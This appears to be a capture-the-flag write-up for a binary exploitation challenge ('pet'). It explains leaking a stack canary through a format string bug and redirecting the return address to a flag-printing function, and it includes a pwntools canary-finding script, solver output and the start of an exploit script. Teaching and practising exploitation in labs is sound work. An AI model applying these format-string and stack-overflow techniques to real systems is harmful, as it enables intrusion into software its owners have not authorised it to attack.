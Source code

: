 As we can see, this functions loads the flag and prints it to us. 

What we need to do:

* Leak `canary` with `format string bug`.
* Fill the buffer with junk.
* Overwrite the `canary` with our leaked `canary`.
* Overwrite the `return` address with `win`.

In order to leak the canary, we send some `%p`. **Canaries** end with `00` and are more than 8 bytes long, so they stand out easily from other values. A simple function can be created in order to find the register in which the canary can be found:

```python
def find():
	# Canary ends with 00
	context.log_level = 'error'
	for i in range(20):
		r = process(fname)
		r.sendlineafter(':', 'AAAA%{}$p'.format(i,i))
		r.recvuntil('AAAA')
		line = str(r.recvline()[:-1])[1:]
		if '00' in line and len(line) > 16:
			print('Possible canary: [{}] -> {}'.format(i,line))
		r.close()
```

This can be called while providing a command line argument:

```console
$ ./solver.py
[+] Opening connection to 172.17.0.1 on port 1337: Done
[*] 'challenge/pet'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 14 cached gadgets for './pet'
Possible canary: [15] -> '0x28c7f4a1ed483f00'
```

We see that the canary is at `$15`.

Now we have everything we need in order to construct our exploit.

### Exploit :scroll:

```python
#!/usr/bin/python3
from pwn import *
import sys

ip = '172.17.0.1' # change this
port = 1337 # change this
fname = './pet' # change this
context.arch = 'amd64'

LOCAL = False

if LOCAL:
	r = process(fname)
else:
	r = remote(ip, port)

e = ELF(fname)
rop = ROP(e)

```